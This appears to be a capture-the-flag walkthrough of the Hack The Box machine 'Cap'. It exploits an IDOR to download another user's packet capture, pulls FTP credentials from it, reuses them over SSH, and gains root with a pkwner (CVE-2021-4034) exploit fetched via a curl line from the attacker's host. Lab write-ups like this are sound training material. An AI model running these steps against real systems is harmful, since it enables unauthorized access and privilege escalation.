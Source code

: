 ```yaml
---
layout: default
title: Cap
---
```


## TL;DR

Using IDOR to achieve ftp password from .pcap file, which is reused as `nathan` password. Escalating to root using known exploit on sudo version.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap results](image.png)

As we can see, port `21` is opened, with `ftp` running on it, port `22` is opened with `ssh` on it, and port `80` with http server.
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see for known vulnerabilities for the `ftp` version, using `searchsploit`. nothing interesting except `DoS` is popping up:
```bash
┌──(agonen㉿kali)-[~/htb/Cap]
└─$ searchsploit vsftpd 3.0.3
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 3.0.3 - Remote Denial of Service                                                                                                                    | multiple/remote/49719.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Exploit IDOR to achieve nathan's password ftp server

inside the website, we can navigate to "Security Snapshot":

![website](image-2.png)

This is the url that we are in we entered, http://10.10.10.245/data/10, when we press the download button the file `pcap.10` is being downloaded.

We can try to browse to this url instead, http://10.10.10.245/data/0, and exploit the `IDOR` vulnerability, and by this way getting `pcap.0`, which is capture file of other stream.

I used wireshark to analyze the `pcap` file, inside the 3th TCP stream I found the FTP login:

![achieve password](image-1.png)

So, the username for ftp is `nathan` and the password `Buck3tH4TF0RM3!`.

![ftp login successful](image-3.png)

### Get user flag from ftp server

I saw there are multiple files inside this ftp server, so I used this command to get all files recursively. note, the character `\` isn't part of the password, but it's necessary, because `!` is a special character and i must escape this character.
```bash
wget -m ftp://nathan:Buck3tH4TF0RM3\!@$target
```

![got all files recursively](image-4.png)

and now, we can achieve the user flag:
```bash
┌──(agonen㉿kali)-[~/htb/Cap/10.10.10.245]
└─$ cat user.txt    
da53f416127ecd4325c068bbc1a9c3e5
```

### Privilege Escalation to Root

we try to use the password of `nathan` for `ftp` to check if it works too for the `ssh` service, and surprisingly, it works!
```bash
ssh nathan@$target
```
![ssh successful connection](image-5.png)

let's start our journey for escalation, first we'll go to `sudo -l`:
```bash
nathan@cap:~$ sudo -l
Sorry, user nathan may not run sudo on cap.
```

Then, we'll go to use our `linpeas.sh` (we can start from this directly, it'll show us our sudo permissions anyway)

![linpeas results](image-6.png)

As we can see, it might be vulnerable to `CVE-2021-4034` and to `CVE-2022-2588`.

```bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                              
Sudo version 1.8.31                                                                                                                                                                          

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034                                                                                                                                                                  

Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588
```

I googled for exploit, and find this github repo [https://github.com/kimusan/pkwner](https://github.com/kimusan/pkwner).

Then, I simply downloaded and set up the http server on my local machine:
```bash
┌──(agonen㉿kali)-[~/htb/Cap/pkwner]
└─$ ls
pkwner.py  pkwner.sh  README.md  screenshot.png  screenshot-py.gif  screenshot-sh.gif
                                                                                                                                                             
┌──(agonen㉿kali)-[~/htb/Cap/pkwner]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.10.245 - - [22/Oct/2025 16:52:40] "GET /pkwner.sh HTTP/1.1" 200 -
```

and on the remote machine:
```bash
curl http://10.10.16.49:8081/pkwner.sh -o /tmp/pkwner.sh
```

now, we just need to execute the exploit:

![achieve root flag](image-7.png)

```bash
root@cap:/home/nathan# cat /root/root.txt
af5909d5b969291c6afd244f822b7bdd
```


**User Flag:*****`da53f416127ecd4325c068bbc1a9c3e5`***

**Root Flag:*****`af5909d5b969291c6afd244f822b7bdd`***
